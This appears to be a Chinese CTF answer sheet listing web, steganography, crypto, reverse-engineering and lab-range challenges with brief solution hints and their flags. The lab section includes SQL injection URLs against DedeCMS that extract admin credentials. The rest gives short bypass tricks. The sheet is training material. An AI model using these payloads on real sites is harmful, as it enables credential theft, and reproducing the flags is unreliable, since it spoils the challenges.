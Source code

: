 Web
排好队，绕过去
MD5传数组会返回NULL
117f8628f187c24bbe15febead3046fa
文件上传
web代码修改上传验证
!@#w34k_uPl04d_Ch3cK
JS Challenge
根据摘要可以得知本题与javascript相关，进入题目页面可以发现有一个验证框
201211
老规矩，你懂的
简单的web代码隐藏key的题目。
WeLc0m3_T0_F1nal_C0mpEtiTi0n
CSS OR XSS
源代码查看xss文件内容解析
cYKolDSeSU3zkFmjoS4naezfv5rVsvTQdBcWQj8MnTJjfIYjdeWrLl2T4GuGik
你抓住了吗？
浏览器默认开启JavaScript挡住了flag
pG3z5z9GT3RKgFMYSS2Rt0aPICPSJoWYP2DJd6cIUaJd3hbxx3u3Dnqqd7EmP6
谁是admin？？
php://input代表可以访问请求的原始数据，简单来说POST请求的情况下，php://input可以获取到post的数据。
1181c1834012245d785120e3505ed169
这个地址好奇怪
需要重定向到index的那个页面，用curl命令，查看源代码
1834012245d785120e3505ed169
头都大了
通过查看控制台里的网络选项的响应头信息
b7bb30b3435f2e7c418b131f9e789f81
浏览器的锅？？
数据截取，修改http请求头
Opera/9.80 (Windows NT6.1; WOW64; U; zh-cn) Presto/2.10.229 Version/11.62
1bc50c66677667a56c3208e06cf64159
我要出国！出国！
抓包修改Accept-Language为en-US
d8016131a2724252b2419bf645aab221
flag是什么呢？
Strcmp函数数组绕过（password[]=1）
MSDJALSDJSDKSDSAASDJSKSKSKSKSKSKA
找呀~找呀~找不到！
传一个id=true的值，In_array函数绕过
4c3cbcadf7b8a9ae2932afc00560a0d6


爆破小组准备，Duang！
使用burp对key进行爆破
e4a4aec4c54123e7ac2a6eeb9068aaf1bbef27e8
Flag在哪里
基础源码查看
1we4rfvgy7mnbvc
如法炮制
Post提交，正则表达式匹配
SDPC_IS_G00D
这是一道简单的WEB
利用strcmp函数传入数组报错
you_are_a_good_boy
到底传什么值呢？
传入数组使ereg()和strpos()函数报错，得到flag
arrayagainb0ys
红亚欢迎你
匹配正则表达式即可
2152fd8edc2e45df187ce5794bc72803
简单溢出
url
1f18348f32c9a4694f16426798937ae2
Anonymous
简单粗暴给源码，看着这源码好像在哪看过：
SUCTF{fake_flag_web_a}
签到了
查看源码
Welcome_To_CTF_World
30条命您配吗
30条命您配吗
haha_u_get_30HP_now
bak
bak文件泄露
63d0cea9d550e495fde1b81310951bd7
Bolangxian
信息泄露
8a3053357a2508363add4edb0cda8f2b
use_vim
web参数传递
912ec803b2ce49e4a541068d495ab570
forgot_something
web下svn泄露的信息
6ded31434fc9a9472b24da4ecbd4a4db
Zhengze
PHP正则匹配内容
fa1b865d9280d4a488afa30fd60216e7
菜刀的相册
进入题目页面，发现与上面MySQL一样，同样是通过$_GET[id]传参
c00ki3inj3ct@2012
捡到银行卡
捡到银行卡
523986
xmKFDtmSXWROqkyOIyDl0Ybz5n6lcBd0yMH46CS0qMxLemM67gkoT0ni2J8zyW
找找看看
看url，先下载图片winhex打开url解密得到,在源码中还有url解密,可以看到是百度网盘的分享码,得到flag
2qrytrnpymbKyQopOs2zPnDSvnOCvWLqQf1j4DSlJa51NV38HG749FcB5nCtnh
怎么回事，我是个flag？？
数据截取，修改cookies值
5d41402abc4b2a76b9719d911017c592
绕绕绕！
MD5函数传入数组报错
1kwnbf83sfe9d
整理一下你的发型
先查看响应头，找到提示文件，然后通过两次url编码绕过判断，得到flag
cd70c87dab94375d1d11f3a5e70c4568
我建议你放弃！
各种绕过，一言难尽
e9f0c8f650be6119646732faf5a3cffc
你确定你是管理员吗？
post提交数据username[]=1&password[]=0，将cookies中user的值修改
8666aaffad843f605a97f24aee4654c5
隐写
神器2
用神器stegsolve切换通道，扫描二维码得到flag
SDPC_QR
Steganography
f5隐写
F5_f5_F5_Ez!!!
多多尝试
多次尝试分割图片，获取内容
1T1sab4D0V1ruS
hex是个好东西
暴力破解密码，查看隐藏文字
okYOUWIN
Cutie cat
ALEXCTF{CATS_HIDE_SECRETS_DONT_THEY}
爆破吧
office暴力破解密码
amazing!@
php的魔力QAQ
压缩文件信息隐藏
yc4pl0fvjs2k1t7T
What is that？
从手势中可以猜测出Flag可能隐藏在下方
_Welcome_To_ISCC_2018_
Where is the FLAG？
图像处理
a332b700-3621-11e7-a53b-6807154a58cf
WORD隐写
word文件隐写内容
9ddcafe895209489070c0856deb6aa81
看到我们的对话了吗
TCP数据流中隐藏的内容
5555555555555555555555555555555555555asdhjsakd
Just for fun
工具提取PDF隐藏内容
11b921ef080f7736089c757404650e40
会飞的狗狗
最近公司截获了一个犯罪份子传播信息的文件，请下载 corgi-can-fly 分析该文件中的内容，flag为英文字符串，包含符号和空格符，提交时请注意。
Corgi is cutest aniaml on the earth
看图，别看我
c00160d831c79ceb87567ff483422418
神器上
用stegsolve切换通道
true_steganographers_doesnt_need_any_tools
File/有点难23333
看了下图像，发现是bmp的8位灰度图。然后用StegSolve比对了下G通道，发现和实际不一样，猜测是StegSolve解析8位的BMP存在问题？ 直接用画图另存为png格式，用StegSolve打开后，在RGB的最后一位都可以看到二维码了。
i love u
Graphics Interchange Format
strings工具匹配文件中的字符串
gandalfthebest
密码学
双码
md5和BASE64解码
The death god only eat apples
被黑了，求密码
密码忘了，只记得密码和下面这串字符是有关系的 .--- .-. --.- ----- ..... ---.. -..- -- --. -.-. .---- .. --... .--. -... ....- ..- -. --. .- --... -... .-.. -. -... -.-. -- ... -.... -.-- .--- -----
JRQ058XMGC1I7PB4UNGA7BLNBCMS6YJ0
重重谍影
这是一道脑洞题，简单的要命。层层迷雾之后就是答案，刹那便是永恒。南无阿弥陀佛。
把我复制走
红亚问题反馈群863920556
鹅上
Egg{863920556}
溯源
flag{A鬼魅}
菜狗的文件
基础破解
flag{wel_come_xinxi}
小明入侵
小明根据社工知道管理员的密码习惯是key{4位的数字或字母}，你能帮助小明找到密码吗
BndE
word诶
隐藏文字
ZHA_1s__0e
来自宇宙的信号
银河战队出击 flag格式：flag{小写字母}
NOPQRST
RSA专家
大牛说了，得到了私钥，破解还不简单吗？
Affine
大牛说了，affine是仿射的意思。
Affineshift
进制转换
大牛说二进制、八进制、十进制、十六进制，你能分的清吗？
1e4bf81a6394de5abc005ac6e39a387b
转轮机加密
提示：托马斯.杰斐逊
FIREINTHEHOLE
公平交易
如何找到只有靠你自己了，你问大牛的话他也肯定不会说关于密码表的
HONGYANICE
日常爆破系列2
字典爆破
FLAG19491001
很多
rot13，rabbit，16进制解密
PYTHON IS GOOD
有点难
aes密码破解
6013221752df892237d0fc99fd8a328f
凯撒大帝的羊
栅栏密码加密解密
rcg1fdlw15woql
凯撒十三世
凯撒十三世在学会使用键盘后，向你扔了一串字符：“ebdgc697g95w3”，猜猜它吧。
yougotme
围起来
先凯撒解密再栅栏解密
_Just_4_fun_0.0_
php_code
请分析php的加密代码，然后将密文破解，得到原文。
kxCHGMwXWgQ45BEb
ascii
ascii
97df60b50c5d3eff{5ubedw217e7nPe}
混合编码
你们只要细心细致，答案总会被你们做出来的
Welcometoattackanddefenceworld
都藏在数据里
密码猜解，base64解密
flag{1d89dd312931e3444c6cd5c40c051e9e}

比赛
ctf还不如玩游戏
js调试
winTimer.Set();
flag{this_game_is_funny!}
猫抓老鼠
综合渗透测试
flag{7c0132070a0ef71d542663e9dc1f5dee}
flag{53c82eba31f6d416f331de9162ebe997}
flag3{f82366a9ddc064585d54e3f78bde3221}
flag{14e10d570047667f904261e6d08f520f}
flag{117c240d49f54096413dd64280399ea9}
flag{d1e5146b171928731385eb7ea38c37b8}
flag{bd2f6a1d5242c962a05619c56fa47ba6}
flag{841dd3db29b0fbbd89c7b5be768cdc81}
技协杯-签到
flag{873f6218-dc48-11ea-a3b9-dca90498a2db}
逆向
UnpackMe Challenge-Final
应用夹克脱壳获取key
D3Pr0t3cT_A5ProTeCt1om2012WLLM
摇摇乐
搜索字符得到大量提示的判断点
64ec47ece868ba34a425d90044cd2dec
CHAL15. CSHARP
"请分析程序流程，找到满足程序条件的一串字符串 Note：此题flag没有flag{} 这样的标识。请添加上flag{}标识之后提交"。
flag{dYnaaMic}
菜刀的保险箱
使用工具提取flash文件的帧
1231856318
Challenge-Zero
Challenge-Zero是一个通过DOC下DEBUG命令逆向程序并获取hex值得到密码的过程。

靶场
IIS设置漏洞靶场
IIS设置漏洞靶场
d24ca3a78d110bfa
5a880faf6fb5e608
Cms漏洞靶场
信息获取,密码破解,权限提升,文件上传
DedeCMSV57_GBK网站版本号：
User
http://192.168.100.17/member/ajax_membergroup.php?action=post&membergroup=@`'` Union select userid from `%23@__admin` where 1 or id=@`'`
password
http://192.168.100.17/member/ajax_membergroup.php?action=post&membergroup=@`'` Union select pwd from `%23@__admin` where 1 or id=@`'`
0d750195b4487976
5090da2632453988
红亚官网靶场
红亚官网靶场
Fckeditor编译器漏洞
http://60.10.10.26/cnitc_editor/_samples/asp/sample01.asp
1cd5f1cc45e0c988
3f4735bfb072aa17
OA系统靶场
信息获取,密码破解,权限提升,文件上传
a0b923820dcc509a
9d4c2f636f067f89
4b5ce2fe28308fd9
a2f3e71d9181a67b
南方数据靶场
信息获取,密码破解,权限提升,文件上传,cookie参数
744211bb1f44be30
系统弱口令靶场
信息获取,权限提升
2e2d7fbdea1afc51
杂项
一起来拼图吧
Editor
eecece36874e068e18df9e565351bd53
来社工苑晴吧
临近春节，苑晴也要准备回家过年啦，在途中苑晴随手拍了一张照片，flag为flag{图中商场名称}
Flag{中科广场}
朋友圈中的秘密
flag提交格式为flag{xx市-xx区-xx街-xx号-店名}（图片拍摄位置）
flag{北京市-顺义区-新顺南大街-11号-汉堡王}
py反编译
py反编译后进行解题
flag{f33c98c554e239b82e7ac07a4ad11}
直接怼
损坏的图片修复PNG文件头
bc0609d1fe5faa09778fe3de241abf01
数据包系列1
wireshark工具过滤http包

数据包系列2
wireshark追踪TCP数据流
6041370ffc5e3418d4276b221efb16bf
眼见非实
word迷惑文件后缀
F1@g
你懂得
修复word文件头
congratulation for the first one
二维码
625个字符进行绘图操作
SCTF{(121.518549,25.040854)}
就在其中
RSA密文通过openssl进行解密
happy_use_0penssi

编程
寻找明文
脚本导出flag
1121_hello_world_60006
末心一天的行程
这是末心泄露在2019年4月的一个信息哦，Flag格式是flag{省份-城市-恩师学校名称}
flag{河南-郑州-郑州师范学院}

rot13 --->hell
兔子兔子 --->sImPle_xUe_yuan
数字B ---->IS6cvkrhFpVEHAK8Ap
32+32 --->e9708b278c79b230ca7d5e6925b0e079
听听看看都在其中 ---->FF  B ED FD F C BA E B  C
什么编码 ---->6a1ec673bfd3cf43bdb5d06e14f09707
有点难 ---->6013221752df892237d0fc99fd8a328f
uuuuuuunnnn ---->5be6f00e8b8722ef0c075bdb2b4d7001
来个培根汉堡 ---->shiyanba/is/cool
你能找到账号密码登录吗？ ---->lz7cvItDfI3A1Pof5Ne0HIHI8z1egcBghElWoKveSJlMqyIMN3yLcHGL9Huuy8
Virus Analyze ---->b4D0V1ruS
隐写唉 ---->0ca175b9c0f726a831d895e269332461 
送分 ---->NJY7UbLrKFSDZLCY
winhex ---->flag{3d2172418ce305c7d16d4b05597c6a59}
gifffffffffff ----->302f5253da6caeb07094acf7
不用多说 ---->fergetetewrewdr
Piet ----Hello,world!
改改啦 ----->ee5ec59ec02d626a8163132ea1396430
Grep ----->office_easy_cracked
md5/aa/ee/ss ----->AES_1s_fun
pspsps ----->flag{black-white}
string ----->yc4pl0fvjs2k1t7T
winhex2 ----->07969485767849385869649449699604
Wow ----->patient honey
Doesn't our logo look cool ? ----->0UR_L0G0_R0CKS
Google ----->s4a76ik89f
Is it trying to tell me something? ------>The user is going to pick dancing pigs over security every time
根本停不下来 ----->9be61df311a7556c0d049267d7c6c313
一起来拼图吧 ----->eecece36874e068e18df9e565351bd53
No Big Deal ----->betterfs.than.yours
xor ------>WelcomeToCTF
红亚会议靶场 ---->1.d28cd3f065dbdc3f 2.59263aa6d413c5a2
shell 靶场 ----->1.flag{4ef7bb251e0ef5f7} 2.flag{e343279857ea7f69}
很多 ----->flag{PYTHON IS GOOD}
32 ---->flag{888e7b8b2d94aedbe6d0b7933c3506bf}
uuuu ------>flag{4e95cce551e20c81ea92b8f76c0ec8f5}
再试试 ---->flag{40e4edc94b08e4d03d2df9e7ba76f10b}
超级简单 ------>flag{97ff039a66796a89c9270109fe58a46d}
rc? ---->flag{cc5ff8d6e7356e32076639ce07e4a7ee}
找逻辑 ----->flag{Happy@!GA0U}
玩转字符 ----->flag{Y0u_4re_5o_1uckY}
捉迷藏 ----->FindKeyOnYourComputerArvinShow
Challenge-Zero ----->16d0sExePr0Gr4m
